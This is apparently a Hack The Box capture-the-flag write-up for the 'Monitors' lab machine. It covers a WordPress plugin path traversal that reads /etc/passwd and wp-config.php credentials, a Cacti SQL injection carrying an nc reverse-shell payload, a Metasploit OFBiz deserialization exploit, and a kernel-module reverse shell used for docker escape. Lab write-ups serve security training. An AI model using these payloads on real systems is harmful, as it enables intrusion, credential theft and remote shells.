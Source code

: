 ```yaml
---
title:  "Monitors"
search: true
categories: 
  - HTB
---
```


# User

The first thing is to use nmap for scan ports :

```
nmap -sSCV -v -A -p- -Pn 10.10.10.238

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 23:41 CDT
Nmap scan report for 10.10.10.238
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.76 seconds


```

As always add `monitors.htb` to `/etc/hosts` and we get the following webpage.

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/1.png)

It is powered by wordpress so just try `wpscan` out

```
wpscan --url http://monitors.htb/ -e ap,cb,dbe

....

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

...

```

It seems that there is a vulnerability - https://www.exploit-db.com/exploits/44544 :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd 


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false


```


Try to get wordpress config under `/var/www/wordpress/wp-config.php` :

```
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//var/www/wordpress/wp-config.php

...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );


...

```

Unfortunately the password does not work, try to gather some extra information:

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/2.png)

a new vhost appeared `cacti.monitors.htb`! Add it to the `hosts` file and visit the website.

Use the wordpress credentials for login and we are in. The framework is version 1.2.12 --> https://www.exploit-db.com/exploits/49810. 
I had to do it manually via burp :

Step  1:
```/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth%3bupdate+settings+set+value%3d'rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.54+443+>/tmp/f%3b'+where+name%3d'path_php_binary'%3b--+-```

Step 2:
```/cacti/host.php?action=reindex```

and I obtained a reverse shell as `www-data`


Enumerating the system I found an interesting service called `cacti-backup.service` which points at `/home/marcus/.backup/backup.sh`. Just reading the content in order to obtain marcus ssh password!

`VerticalEdge2020`

# Root

Running enumeration on the host it is possible to see a new port running locally, `8443`.
So we do pivoting through ssh using `ssh -L 8443:localhost:8443 marcus@monitors.htb`

![]({{ site.url }}{{ site.baseurl }}/assets/images/monitor/3.png)

As we see the server runs tomcat version 9.0.31. After some research, I discovered that Tomcat is now part of Apache OfBiz, so I checked some vulnerabilities for also that framework and found `CVE-2020-9496`.



`use exploit/linux/http/apache_ofbiz_deserialization
set LHOST 10.10.x.x
set RHOSTS 127.0.0.1
set payload linux/x64/shell/reverse_tcp
set forceexploit true
run
`

and we got shell as root into the docker container (there is `.dockernev` ) . So now we need to evade the docker somehow.
Checking the capabilities with linpeas we can notice that we have  `CAP_SYS_MODULE` which is really interesting. I followed different articles ( https://xcellerator.github.io/posts/docker_escape/, https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) which mainly prove that, due to the fact that the kernel for the container is the same as the host, we can evade the container installing a module which interacts directly with the kernel.

So I just created two files, `Makefile` and `reverse.c` :

```
Makefile

obj-m +=reverse.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean


```


```
reverse.c

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```



After having uploaded them onto the docker container, using `curl -o`,  compile them through `make all` command (if you encounter compilation problems and errors just run `export PATH=$PATH/usr/lib/gcc/x86_64-linux-gnu/8/`) and then open a netcat listener on the host as marcus

`nc -lnvp 4444`

At last run `insmod reverse.ko`. And we obtain a reverse shell back as root. Enjoy!